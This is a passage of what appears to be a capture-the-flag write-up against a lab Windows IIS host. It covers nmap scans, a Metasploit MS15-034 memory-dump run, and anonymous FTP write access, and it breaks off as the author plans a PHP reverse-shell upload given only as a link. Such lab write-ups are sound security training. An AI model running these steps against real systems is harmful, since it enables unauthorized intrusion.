 ## Another Day, Another NMAP
```
hippoeug@kali:~$ nmap -sC -sV -A --script=vuln 10.10.10.5 -v -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 23:20 +0
...
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
80/tcp open  http    Microsoft IIS httpd 7.5
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/7.5
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So we know there is a FTP server, and a HTTP server running IIS. Let's KIV.
Also, I wonder what does the vuln script show?
```
hippoeug@kali:~$ nmap --script vuln 10.10.10.5 -Pn -v
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 23:31 +08
NSE: Loaded 105 scripts for scanning.
...
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Completed Connect Scan at 23:32, 6.36s elapsed (1000 total ports)
...
PORT   STATE SERVICE
21/tcp open  ftp
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635: 
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System account.
|           
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx
```

## First Attack, MS15-034, CVE-2015-1635
Ezgame, another metasploit module!
```
msf5 > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump

+] Memory contents:
48 54 54 50 2f 31 2e 31 20 32 30 36 20 50 61 72    |HTTP/1.1 206 Par|
74 69 61 6c 20 43 6f 6e 74 65 6e 74 0d 0a 43 6f    |tial Content..Co|
6e 74 65 6e 74 2d 54 79 70 65 3a 20 74 65 78 74    |ntent-Type: text|
2f 68 74 6d 6c 0d 0a 4c 61 73 74 2d 4d 6f 64 69    |/html..Last-Modi|
66 69 65 64 3a 20 46 72 69 2c 20 31 37 20 4d 61    |fied: Fri, 17 Ma|
72 20 32 30 31 37 20 31 34 3a 33 37 3a 33 30 20    |r 2017 14:37:30 |
47 4d 54 0d 0a 41 63 63 65 70 74 2d 52 61 6e 67    |GMT..Accept-Rang|
65 73 3a 20 62 79 74 65 73 0d 0a 45 54 61 67 3a    |es: bytes..ETag:|
20 22 33 37 62 35 65 64 31 32 63 39 66 64 32 31    | "37b5ed12c9fd21|
3a 30 22 0d 0a 53 65 72 76 65 72 3a 20 4d 69 63    |:0"..Server: Mic|
72 6f 73 6f 66 74 2d 49 49 53 2f 37 2e 35 0d 0a    |rosoft-IIS/7.5..|
58 2d 50 6f 77 65 72 65 64 2d 42 79 3a 20 41 53    |X-Powered-By: AS|
50 2e 4e 45 54 0d 0a 44 61 74 65 3a 20 4d 6f 6e    |P.NET..Date: Mon|
2c 20 33 30 20 4e 6f 76 20 32 30 32 30 20 32 33    |, 30 Nov 2020 23|
3a 33 39 3a 35 32 20 47 4d 54 0d 0a 43 6f 6e 74    |:39:52 GMT..Cont|
65 6e 74 2d 4c 65 6e 67 74 68 3a 20 36 38 38 0d    |ent-Length: 688.|
0a 43 6f 6e 74 65 6e 74 2d 52 61 6e 67 65 3a 20    |.Content-Range: |
62 79 74 65 73 20 31 2d 36 38 38 2f 36 38 39 0d    |bytes 1-688/689.|
0a 0d 0a 21 44 4f 43 54 59 50 45 20 68 74 6d 6c    |...!DOCTYPE html|
20 50 55 42 4c 49 43 20 22 2d 2f 2f 57 33 43 2f    | PUBLIC "-//W3C/|
2f 44 54 44 20 58 48 54 4d 4c 20 31 2e 30 20 53    |/DTD XHTML 1.0 S|
74 72 69 63 74 2f 2f 45 4e 22 20 22 68 74 74 70    |trict//EN" "http|
3a 2f 2f 77 77 77 2e 77 33 2e 6f 72 67 2f 54 52    |://www.w3.org/TR|
2f 78 68 74 6d 6c 31 2f 44 54 44 2f 78 68 74 6d    |/xhtml1/DTD/xhtm|
6c 31 2d 73 74 72 69 63 74 2e 64 74 64 22 3e 0d    |l1-strict.dtd">.|
0a 3c 68 74 6d 6c 20 78 6d 6c 6e 73 3d 22 68 74    |.<html xmlns="ht|
74 70 3a 2f 2f 77 77 77 2e 77 33 2e 6f 72 67 2f    |tp://www.w3.org/|
31 39 39 39 2f 78 68 74 6d 6c 22 3e 0d 0a 3c 68    |1999/xhtml">..<h|
65 61 64 3e 0d 0a 3c 6d 65 74 61 20 68 74 74 70    |ead>..<meta http|
2d 65 71 75 69 76 3d 22 43 6f 6e 74 65 6e 74 2d    |-equiv="Content-|
54 79 70 65 22 20 63 6f 6e 74 65 6e 74 3d 22 74    |Type" content="t|
65 78 74 2f 68 74 6d 6c 3b 20 63 68 61 72 73 65    |ext/html; charse|
74 3d 69 73 6f 2d 38 38 35 39 2d 31 22 20 2f 3e    |t=iso-8859-1" />|
0d 0a 3c 74 69 74 6c 65 3e 49 49 53 37 3c 2f 74    |..<title>IIS7</t|
69 74 6c 65 3e 0d 0a 3c 73 74 79 6c 65 20 74 79    |itle>..<style ty|
70 65 3d 22 74 65 78 74 2f 63 73 73 22 3e 0d 0a    |pe="text/css">..|
3c 21 2d 2d 0d 0a 62 6f 64 79 20 7b 0d 0a 09 63    |<!--..body {...c|
6f 6c 6f 72 3a 23 30 30 30 30 30 30 3b 0d 0a 09    |olor:#000000;...|
62 61 63 6b 67 72 6f 75 6e 64 2d 63 6f 6c 6f 72    |background-color|
3a 23 42 33 42 33 42 33 3b 0d 0a 09 6d 61 72 67    |:#B3B3B3;...marg|
69 6e 3a 30 3b 0d 0a 7d 0d 0a 0d 0a 23 63 6f 6e    |in:0;..}....#con|
74 61 69 6e 65 72 20 7b 0d 0a 09 6d 61 72 67 69    |tainer {...margi|
6e 2d 6c 65 66 74 3a 61 75 74 6f 3b 0d 0a 09 6d    |n-left:auto;...m|
61 72 67 69 6e 2d 72 69 67 68 74 3a 61 75 74 6f    |argin-right:auto|
3b 0d 0a 09 74 65 78 74 2d 61 6c 69 67 6e 3a 63    |;...text-align:c|
65 6e 74 65 72 3b 0d 0a 09 7d 0d 0a 0d 0a 61 20    |enter;...}....a |
69 6d 67 20 7b 0d 0a 09 62 6f 72 64 65 72 3a 6e    |img {...border:n|
6f 6e 65 3b 0d 0a 7d 0d 0a 0d 0a 2d 2d 3e 0d 0a    |one;..}....-->..|
3c 2f 73 74 79 6c 65 3e 0d 0a 3c 2f 68 65 61 64    |</style>..</head|
3e 0d 0a 3c 62 6f 64 79 3e 0d 0a 3c 64 69 76 20    |>..<body>..<div |
69 64 3d 22 63 6f 6e 74 61 69 6e 65 72 22 3e 0d    |id="container">.|
0a 3c 61 20 68 72 65 66 3d 22 68 74 74 70 3a 2f    |.<a href="http:/|
2f 67 6f 2e 6d 69 63 72 6f 73 6f 66 74 2e 63 6f    |/go.microsoft.co|
6d 2f 66 77 6c 69 6e 6b 2f 3f 6c 69 6e 6b 69 64    |m/fwlink/?linkid|
3d 36 36 31 33 38 26 61 6d 70 3b 63 6c 63 69 64    |=66138&amp;clcid|
3d 30 78 34 30 39 22 3e 3c 69 6d 67 20 73 72 63    |=0x409"><img src|
3d 22 77 65 6c 63 6f 6d 65 2e 70 6e 67 22 20 61    |="welcome.png" a|
6c 74 3d 22 49 49 53 37 22 20 77 69 64 74 68 3d    |lt="IIS7" width=|
22 35 37 31 22 20 68 65 69 67 68 74 3d 22 34 31    |"571" height="41|
31 22 20 2f 3e 3c 2f 61 3e 0d 0a 3c 2f 64 69 76    |1" /></a>..</div|
3e 0d 0a 3c 2f 62 6f 64 79 3e 0d 0a 3c 2f 68 74    |>..</body>..</ht|
6d 6c 3e                                           |ml>|
```
Ah crap, nothing interesting mang. Back to searching for vulnerabilties.

## NMAP, Second Attempt
```
hippoeug@kali:~$ nmap -sC -sV 10.10.10.5 -Pn -v
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 23:44 +08
...
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Going to `http://10.10.10.5`, we see the IIS welcome page.
Trying `http://10.10.10.5/iisstart.htm` and `http://10.10.10.5/welcome.png` as seen on the FTP server, we get results! 
So they're indeed connected and linked! FTP could be a good vector to attack from! Let's check the FTP out.

## Finding Vulnerabilties for FTP & IIS
We see FTP on Port 21 has `Anonymous FTP login allowed (FTP code 230)`
```
msf5 > use auxiliary/scanner/ftp/anonymous
...
[+] 10.10.10.5:21         - 10.10.10.5:21 - Anonymous READ/WRITE (220 Microsoft FTP Service)
[*] 10.10.10.5:21         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Interesting, `Anonymous READ/WRITE (220 Microsoft FTP Service)`. Let's upload a f*\*ken reverse shell!
But what reverse shell? 

Doing some research (Source: https://www.atlantic.net/what-is-an-iis-server/), we see:
```
Because IIS uses C# and .NET web application frameworks like ASP.NET MVC and Entity Framework; additionally, it integrates with Visual Studio, all of which make it a popular choice for enterprises. Other key advantages are native .NET, ASPX and PHP support for modules and scripts, which allows web developers to create eye-catching, seamlessly designed content to their web creations.
```
Interesting, scripts for `.NET`, `ASPX` and `PHP` is supported. 

## Reverse Shell Upload
We can choose between `.NET`, `ASPX` and `PHP` scripts, but let me first attempt to upload a PHP reverse shell.

PHP reverse shell source: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Upload to FTP source: https://www.howtoforge.com/tutorial/how-to-use-ftp-on-the-linux-shell/



